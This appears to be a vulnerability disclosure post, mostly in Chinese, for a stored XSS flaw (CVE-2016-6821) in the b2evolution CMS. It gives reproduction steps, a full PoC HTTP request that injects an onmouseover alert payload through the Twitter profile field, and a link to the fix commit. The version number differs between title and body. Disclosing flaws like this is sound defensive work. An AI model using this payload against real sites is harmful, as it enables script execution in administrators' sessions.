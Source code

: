 ```yaml
---
layout: post
title: B2evolution v6.4.7 XSS
---
```


发现者: 陈瑞琦 

发现日期: 2016-08-09

下载地址: [b2evolution](http://b2evolution.net/downloads/)

作者: b2evolution.net

作者通知日期: 2016-08-09

作者联系手段: http://b2evolution.net/?disp=msgform

CVE-ID：CVE-2016-6821

**描述:**

b2evolution is a content and community management system written in PHP and backed by a MySQL database. It is distributed as free software under the GNU General Public License.
b2evolution originally started as a multi-user multi-blog engine when Fran?ois Planque forked b2evolution from version 0.6.1 of b2/cafelog in 2003.[2] A more widely known fork of b2/cafelog is WordPress. b2evolution is available in web host control panels as a "one click install" web app.[3](Wiki)

**细节:** 

B2evolution v6.7.4有一个存储型XSS
任意用户可以编辑用户信息内的twitter信息来插入恶意代码
当管理员在后台查看用户信息时候，插入的恶意代码将会执行

第一步: 注册一个用户

第二步: [编辑自己的twitter信息](http://192.168.204.128/b2evolution/index.php?disp=profile),在其中添加恶意代码，如https://twitter.com/kevino"onmouseover="alert(1)"onerror=1

**PoC:**

`code`
<pre><code>
POST /b2evolution/htsrv/profile_update.php HTTP/1.1
Host: 192.168.204.128
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://192.168.204.128/b2evolution/index.php?disp=profile
Cookie: {the cookies}
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 653

edited_user_login=kevino&edited_user_firstname=kevino&edited_user_lastname=kevino&edited_user_nickname=kevino&edited_user_gender=M&edited_user_ctry_ID=&edited_user_rgn_ID=&edited_user_subrg_ID=&edited_user_city_ID=&edited_user_age_min=&edited_user_age_max=&organizations%5B%5D=&uf_38=kevino&uf_39=kevino&uf_40=kevino&uf_41=https%3A%2F%2Ftwitter.com%2Fkevino%22onmouseover%3D%22alert%281%29%22onerror%3D%221&uf_42=https%3A%2F%2Ffacebook.com%2Fkevino&uf_43=http%3A%2F%2Fkevino.net%2Fkevino&new_field_type=3&actionArray%5Bupdate%5D=Save+Changes%21&crumb_user=CQ7LjBDKmMin8zqBDl050nNEbmINmIGi&user_tab=profile&identity_form=1&user_ID=8&blog=1&orig_user_ID=8&12_3=4_56
</code></pre>

**Fix:**

https://github.com/b2evolution/b2evolution/commit/83c40129f471b659755491a02b2ad981995d37c1
